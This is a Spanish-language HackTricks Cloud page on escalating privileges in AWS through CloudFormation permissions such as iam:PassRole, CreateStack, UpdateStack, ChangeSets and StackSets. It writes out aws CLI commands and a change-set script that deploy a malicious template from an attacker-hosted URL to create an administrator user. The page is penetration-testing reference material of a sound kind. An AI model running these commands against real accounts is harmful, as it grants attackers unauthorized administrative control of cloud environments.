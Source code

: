 # AWS - Cloudformation Privesc

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## cloudformation

Para obtener más información sobre cloudformation, consulte:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un atacante con los permisos **`iam:PassRole`** y **`cloudformation:CreateStack`** podría **escalar privilegios creando una plantilla de CloudFormation** que realizará acciones y creará recursos utilizando los **permisos del rol que se pasó** al crear una pila de CloudFormation.

```bash
aws cloudformation create-stack --stack-name my_stack \
    --template-url http://my-website.com/my-malicious-template.template \
    --role-arn arn_of_cloudformation_service_role
```

Donde la plantilla ubicada en el sitio web del atacante incluye instrucciones para realizar **acciones maliciosas, como crear un usuario administrador** y luego usar esas credenciales para escalar su propio acceso.

En la siguiente página, tiene un **ejemplo de explotación** con el permiso adicional **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impacto potencial:** Privesc al rol de servicio de cloudformation especificado.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

En este caso, puede **abusar de una pila de cloudformation existente** para actualizarla y escalar privilegios como en el escenario anterior:

```bash
aws cloudformation update-stack \
    --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1 
```

El permiso `cloudformation:SetStackPolicy` se puede usar para **darte permiso de `UpdateStack`** sobre una pila y realizar el ataque.

**Impacto potencial:** Privesc al rol de servicio de cloudformation especificado.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Si tiene este permiso pero **no `iam:PassRole`**, aún puede **actualizar las pilas** utilizadas y abusar de los **roles de IAM que ya tienen adjuntos**. Consulte la sección anterior para obtener un ejemplo de explotación (simplemente no indique ningún rol en la actualización).

El permiso `cloudformation:SetStackPolicy` se puede usar para **darte permiso de `UpdateStack`** sobre una pila y realizar el ataque.

**Impacto potencial:** Privesc al rol de servicio de cloudformation ya adjunto.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un atacante con permisos para **pasar un rol y crear y ejecutar un ChangeSet** puede **crear/actualizar una nueva pila de cloudformation y abusar de los roles de servicio de cloudformation** como con CreateStack o UpdateStack.

El siguiente exploit es una **variación del** [**CreateStack**](./#iam-passrole-cloudformation-createstack) **usando los permisos de ChangeSet** para crear una pila.

```bash
aws cloudformation create-change-set \
    --stack-name privesc \
    --change-set-name privesc \
    --change-set-type CREATE \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::947247140022:role/CloudFormationAdmin \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1

echo "Esperando 2 minutos para cambiar la pila"
sleep 120

aws cloudformation execute-change-set \
    --change-set-name privesc \
    --stack-name privesc \
    --region eu-west-1

echo "Esperando 2 minutos para ejecutar la pila"
sleep 120

aws cloudformation describe-stacks \
    --stack-name privesc \
    --region eu-west-1
```

El permiso `cloudformation:SetStackPolicy` se puede usar para **darte permiso de `ChangeSet`** sobre una pila y realizar el ataque.

**Impacto potencial:** Privesc a los roles de servicio de cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Esto es como el método anterior sin pasar **roles de IAM**, por lo que solo puede **abusar de los ya adjuntos**, solo modifique el parámetro:

```
--change-set-type UPDATE
```

**Impacto potencial:** Privesc al rol de servicio de cloudformation ya adjunto.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un atacante podría abusar de estos permisos para crear/actualizar StackSets y abusar de roles de cloudformation arbitrarios.

**Impacto potencial:** Privesc a los roles de servicio de cloudformation.

### `cloudformation:UpdateStackSet`

Un atacante podría abusar de este permiso sin el permiso de passRole para actualizar StackSets y abusar de los roles de cloudformation adjuntos.

**Impacto potencial:** Privesc a los roles de cloudformation adjuntos.

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>